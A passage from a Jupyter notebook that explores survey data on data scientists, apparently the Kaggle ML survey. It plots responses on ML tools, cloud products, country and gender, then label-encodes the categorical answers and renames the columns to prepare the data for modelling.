

In [0]:
plot_multi_choice_dist('Q24', 12, 'ML algorithms', 'number of responses').show()



In [0]:
plot_multi_choice_dist('Q25', 8, 'ML tools', 'number of responses').show()



In [0]:
plot_multi_choice_dist('Q26', 7, 'Computer Vision methods', 'number of responses').show()



In [0]:
plot_multi_choice_dist('Q27', 6, 'NLP', 'number of responses').show()



In [0]:
plot_multi_choice_dist('Q28', 12, 'ML Frameworks', 'number of responses').show()



In [0]:
plot_multi_choice_dist('Q29', 12, 'Cloud computing products', 'number of responses').show()



In [0]:
plot_multi_choice_dist('Q31', 12, 'Big data / analytics products', 'number of responses').show()



In [0]:
plot_multi_choice_dist('Q32', 12, 'Automated ML Tools', 'number of responses').show()



In [0]:
plot_multi_choice_dist('Q33', 12, 'Automated ML Tools', '# of responses').show()



In [0]:
plot_multi_choice_dist('Q34', 12, 'Relational Database products', '# of responses').show()



In [0]:
multi_response['Q4'].value_counts().plot.bar(title='education status')

In [0]:
import plotly.offline as py
country_df = multi_response['Q3'][1:].value_counts()

data = [dict(
        type='choropleth',
        locations = list(country_df.index),
        locationmode='country names',
        z=(country_df.values),
        text=list(country_df.index),
        colorscale='Portland',
        reversescale=True,
)]
layout = dict(
    title = 'A Map About Population of Data Scientists in Each Country',
    geo = dict(showframe=False, showcoastlines=True, projection=dict(type='Mercator'))
)
fig = dict(data=data, layout=layout)
py.iplot(fig, validate=False, filename='world-map')



In [0]:
!pip install pywaffle
from pywaffle import Waffle

gender = multi_response['Q2'].value_counts()

fig = plt.figure(
    FigureClass=Waffle, 
    rows=10,
    columns=10,
    values=gender,
    colors = ('#20639B', '#ED553B', '#3CAEA3', '#F5D55C'),
    title={'label': 'Gender Distribution', 'loc': 'center'},
    labels=["{}({})".format(a, b) for a, b in zip(gender.index, gender) ],
    legend={'loc': 'lower left', 'bbox_to_anchor': (1.3, .5)},
    font_size=25,
    icons='user',
    figsize=(10, 10),  
    icon_legend=True
)
fig.set_facecolor('#EEEEEE')



In [0]:
# checking the imbalance
sb.countplot(x='Q10',data=X_enc,palette='RdBu_r') # Barplot for the dependent variable

In [0]:
X_enc['Q10'].value_counts()

$0-999             1513
10,000-14,999       833
100,000-124,999     750
30,000-39,999       728
40,000-49,999       719
50,000-59,999       704
1,000-1,999         599
60,000-69,999       576
5,000-7,499         536
15,000-19,999       529
20,000-24,999       526
70,000-79,999       524
125,000-149,999     483
25,000-29,999       482
150,000-199,999     434
7,500-9,999         408
80,000-89,999       405
2,000-2,999         390
90,000-99,999       377
3,000-3,999         305
4,000-4,999         289
200,000-249,999     165
> $500,000           83
300,000-500,000      74
250,000-299,999      65
Name: Q10, dtype: int64

# Converting Categorical Features
We'll need to convert categorical features to numerical features. Otherwise our machine learning algorithm won't be able to directly take in those features as inputs.

In [0]:
# # Category variables -> Numerical variables
list_feat=['Q1','Q2','Q3','Q4','Q5','Q6','Q7','Q8','Q10','Q11','Q14','Q15','Q19','Q22','Q23']

In [0]:
for feature in list_feat:
    labels = X_enc[feature].astype('category').cat.categories.tolist()
    replace_map_comp = {feature : {k: v for k,v in zip(labels,list(range(0,len(labels)+1)))}}

    X_enc.replace(replace_map_comp, inplace=True)

In [0]:
X_enc.head()

,Time from Start to Finish (seconds),Q1,Q2,Q3,Q4,Q5,Q6,Q7,Q8,Q10,Q11,Q14,Q15,Q19,Q22,Q23,Q9_Part_1_Analyze and understand data to influence product or business decisions,"Q9_Part_2_Build and/or run the data infrastructure that my business uses for storing, analyzing, and operationalizing data",Q9_Part_3_Build prototypes to explore applying machine learning to new areas,Q9_Part_4_Build and/or run a machine learning service that operationally improves my product or workflows,Q9_Part_5_Experimentation and iteration to improve existing ML models,Q9_Part_6_Do research that advances the state of the art of machine learning,Q9_Part_7_None of these activities are an important part of my role at work,Q9_Part_8_Other,Q12_Part_1_Twitter (data science influencers),Q12_Part_2_Hacker News (https://news.ycombinator.com/),"Q12_Part_3_Reddit (r/machinelearning, r/datascience, etc)","Q12_Part_4_Kaggle (forums, blog, social media, etc)","Q12_Part_5_Course Forums (forums.fast.ai, etc)","Q12_Part_6_YouTube (Cloud AI Adventures, Siraj Raval, etc)","Q12_Part_7_Podcasts (Chai Time Data Science, Linear Digressions, etc)","Q12_Part_8_Blogs (Towards Data Science, Medium, Analytics Vidhya, KDnuggets etc)","Q12_Part_9_Journal Publications (traditional publications, preprint journals, etc)","Q12_Part_10_Slack Communities (ods.ai, kagglenoobs, etc)",Q12_Part_11_None,Q12_Part_12_Other,Q13_Part_1_Udacity,Q13_Part_2_Coursera,Q13_Part_3_edX,Q13_Part_4_DataCamp,...,Q31_Part_9_AWS Kinesis,Q31_Part_10_Google Cloud Pub/Sub,Q31_Part_11_None,Q31_Part_12_Other,Q32_Part_1_SAS,Q32_Part_2_Cloudera,Q32_Part_3_Azure Machine Learning Studio,Q32_Part_4_Google Cloud Machine Learning Engine,Q32_Part_5_Google Cloud Vision,Q32_Part_6_Google Cloud Speech-to-Text,Q32_Part_7_Google Cloud Natural Language,Q32_Part_8_RapidMiner,Q32_Part_9_Google Cloud Translation,Q32_Part_10_Amazon SageMaker,Q32_Part_11_None,Q32_Part_12_Other,Q33_Part_1_ Google AutoML,Q33_Part_2_ H20 Driverless AI,Q33_Part_3_ Databricks AutoML,Q33_Part_4_ DataRobot AutoML,Q33_Part_5_ Tpot,Q33_Part_6_ Auto-Keras,Q33_Part_7_ Auto-Sklearn,Q33_Part_8_ Auto_ml,Q33_Part_9_ Xcessiv,Q33_Part_10_ MLbox,Q33_Part_11_None,Q33_Part_12_Other,Q34_Part_1_MySQL,Q34_Part_2_PostgresSQL,Q34_Part_3_SQLite,Q34_Part_4_Microsoft SQL Server,Q34_Part_5_Oracle Database,Q34_Part_6_Microsoft Access,Q34_Part_7_AWS Relational Database Service,Q34_Part_8_AWS DynamoDB,Q34_Part_9_Azure SQL Database,Q34_Part_10_Google Cloud SQL,Q34_Part_11_None,Q34_Part_12_Other
0,510,1,1,15,3.0,9.0,1.0,0.0,0.0,13.0,0.0,1.0,0.0,8.0,3.0,0.0,0,0,0,0,0,0,0,0,1,0,0,1,0,0,0,1,1,0,0,0,0,1,0,1,...,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0
1,423,5,1,20,5.0,9.0,4.0,4.0,3.0,17.0,5.0,3.0,6.0,NaN,NaN,NaN,1,1,1,1,0,0,0,0,0,0,0,1,0,1,1,1,0,0,0,0,0,1,0,1,...,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0
2,83,8,0,16,5.0,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,NaN,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,...,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0
3,391,5,1,2,3.0,6.0,4.0,4.0,0.0,11.0,2.0,4.0,0.0,8.0,4.0,2.0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,1,1,1,1,0,0,0,1,1,1,...,0,0,0,0,0,0,1,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,1,0,0,0,0,0,0,0,0,0,1,0,0,0
4,392,1,1,20,0.0,6.0,0.0,0.0,1.0,15.0,0.0,4.0,5.0,8.0,3.0,7.0,0,0,0,0,0,0,0,0,0,0,0,0,0,1,0,1,0,0,0,1,0,0,0,0,...,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0


In [0]:
#Rename the columns for better understanding
data = X_enc.rename(columns={
             'Time from Start to Finish (seconds)':'Time duration',
             'Q1':'Age',
             'Q2':'Gender',
             'Q3':'Country',
             'Q4':'Education level',
             'Q5':'Job title',
             'Q6':'Company size',
             'Q7':'The number of data scientist in company',
             'Q8':'ML implementaion in company',
             #Q9: Activities that make up an important part of your role at work(Multiple choices)
            'Q10':'Yearly compensation',
            'Q11':'Investment on ML',
            #Q12: Favorite media sources that report on data science topics(Multiple choices)
            #Q13: Which platforms for studying data science(Multiple choices)
            'Q14':'Primary tool used for ML',
            'Q15':'Coding experience',
            #Q16: Integrated development environments (IDE's) you use on a regular basis(Multiple choices)
            #Q17: Hosted notebook products you use on a regular basis(Multiple choices)
            #Q18: Programming languages you use on a regular basis(Multiple choices)
            'Q19': 'Programming language to learn first',
            #Q20: Data visualization libraries or tools you use on a regular basis(Multiple choices)
            #Q21: Specialized hardware you use on a regular basis(Multiple choices)
            'Q22':'Experience in TPU',
            'Q23': 'Years in using machine learning methods'
            #Q24: ML algorithms you use on a regular basis(Multiple choices)
            #Q25: Categories of ML tools you use on a regular basis(Multiple choices)
            #Q26: Categories of computer vision methods you use on a regular basis(Multiple choices)
            #Q27: Natural language processing (NLP) methods you use on a regular basis(Multiple choices)
            #Q28: Machine learning frameworks you use on a regular basis(Multiple choices)
            #Q29: Cloud computing platforms you use on a regular basis(Multiple choices)
            #Q30: Specific cloud computing products you use on a regular basis(Multiple choices)
            #Q31: Specific big data / analytics products you use on a regular basis(Multiple choices)
            #Q32: Machine learning products you use on a regular basis(Multiple choices)
            #Q33: Automated machine learning tools (or partial AutoML tools) you use on a regular basis(Multiple choices)
            #Q34: Relational database products do you use on a regular basis(Multiple choices)

})

In [0]:
data.head()

,Time duration,Age,Gender,Country,Education level,Job title,Company size,The number of data scientist in company,ML implementaion in company,Yearly compensation,Investment on ML,Primary tool used for ML,Coding experience,Programming language to learn first,Experience in TPU,Years in using machine learning methods,Q9_Part_1_Analyze and understand data to influence product or business decisions,"Q9_Part_2_Build and/or run the data infrastructure that my business uses for storing, analyzing, and operationalizing data",Q9_Part_3_Build prototypes to explore applying machine learning to new areas,Q9_Part_4_Build and/or 